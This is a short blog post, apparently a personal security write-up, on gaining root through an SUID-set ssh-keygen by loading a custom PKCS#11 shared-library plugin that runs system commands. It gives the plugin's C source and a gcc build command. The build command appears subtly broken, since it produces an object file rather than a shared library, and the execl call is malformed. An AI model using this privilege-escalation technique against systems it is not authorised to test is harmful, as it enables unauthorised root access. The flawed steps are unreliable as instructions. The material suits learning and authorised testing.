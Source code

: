 ```yaml
---
title: "Exploiting ssh-keygen SUID binary using custom plugin"
pubDate: "Feb 27 2024"
---
```


A little ago I encountered a system which had SUID bit set on `ssh-keygen`

SUID is a special permission that can be assigned to executable files. When an executable file has the SUID permission enabled, it allows users who execute the file to temporarily assume the privileges of the file's owner

ssh-keygen has the ability to load shared libraries during the execution of binary. You can also check it [here](https://gtfobins.github.io/gtfobins/ssh-keygen/)
We can take advantage of it, create our custom plugin which will execute system commands and load the plugin using ssh-keygen and become `root`

Here is an C example for the custom plugin:

```c
#include "pkcs11.h"
#include <stdio.h>
#include <unistd.h>

CK_RV C_GetFunctionList(CK_FUNCTION_LIST_PTR_PTR ppFunctionList) {
    
    pid_t pid = fork();

    if (pid == 0) {
        execl("/usr/bin/whoami", NULL);
    } else if(pid > 0) {
        wait(NULL);
    } else {
        perror("fork");
        return 1;
    }

    return CKR_OK;
}
```

compile it as shared library(.so ) file 
```bash
gcc -c -fPIC rce.c -o lib.so
```
if you get `fatal error: pkcs11.h: No such file or directory` error, download [this file](https://github.com/OpenSC/libp11/blob/master/src/pkcs11.h), put it in the same directory with C file and try to compile again

Now run ssh-keygen with our custom plugin
![](../../assets/blog/images/ssh-keygen-suid/2.png)